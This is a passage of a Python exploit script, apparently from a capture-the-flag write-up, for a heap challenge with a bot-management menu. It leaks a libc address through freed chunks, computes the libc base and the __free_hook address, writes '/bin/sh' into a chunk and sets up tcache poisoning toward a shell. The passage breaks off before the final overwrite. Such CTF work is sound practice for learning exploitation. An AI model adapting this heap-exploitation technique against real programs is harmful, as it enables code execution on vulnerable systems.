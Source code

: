 ```py
    log.info("destroy")
    ru(b"5) Destroy a bot\n\n> ")
    sl(b"5")
    ru(b"> ")
    sl(str(bot).encode())


for i in range(12):
    print(f"Allocate 0x80 -> idx {i+1}")
    create(0x80, 2)
    edit(i+1, (str(i+1).encode())*0x40)

edit(11, b"FUCK"*0x10)
print(f"Allocate 0x80 -> idx {11}")


for i in range(7):
    print(f"Free 0x80 -> idx {i+1}")
    destroy(i+1)

destroy(11)

r()
sl(b"3")
print(r().decode())

sl(b"4")
sl(b"10")

r()
sl(b"3")
leaks = r().split(b"\n")
for l in leaks:
    if b"n\xc2\xb010" in l:
        leak = l.split(b" ")[1]

print(leak)
leak = pu64(leak)
hlog(leak)

libc.address = leak - (0x76e93a29cbe0 - 0x000076e93a0b1000)
hlog(libc.address)

sl(b"3")

create(0x20, 2)
edit(14, b"/bin/sh\x00")

free_hook = 0x0000000001eeb28+libc.address

create(0x40, 2)
create(0x40, 2)
edit(15, b"Z"*0x30)
edit(16, b"Y"*0x30)

sl(b"4")
sl(b"15")
sl(b"4")
sl(b"16")

r()
sl(b"3")

```